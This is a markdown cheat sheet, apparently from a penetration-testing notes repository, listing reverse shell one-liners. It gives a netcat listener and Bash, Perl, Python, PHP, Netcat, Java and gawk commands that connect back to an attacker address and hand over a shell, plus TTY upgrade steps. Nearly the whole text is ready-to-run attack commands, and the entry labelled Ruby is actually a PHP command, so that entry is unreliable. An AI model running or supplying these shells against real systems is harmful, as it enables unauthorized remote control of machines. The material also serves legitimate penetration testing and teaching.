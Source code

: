 # Reverse Shell Cheat Sheet

---

This list represent an comphrehensive cheet sheet of shells and other related stuffs.

### Listening

To setup a listening instance, enter the following:

```sudo nc -nvlp 80```

### Reverse Shell

To connect back to a listening netcat instance, enter the following:

- Bash:
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

- PERL:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- PERL Windows 1:
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Python:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- PHP:
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- Ruby:
```ruby
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- Netcat:
```bash
nc -e /bin/sh 10.0.0.1 1234
```

- Java:
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Gawk Reverse Shell:
```bash
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

- Spawning interactive reverse shells with TTY:
```bash
# In reverse shell 
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Attacker console
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


Sources:
- [On HighOn Blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [On Pentenst Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [On Medium](https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e)


---
[Cheat Sheet](/cheatsheet/cheatsheet_readme.md) [HOME Page](/README.md)
---

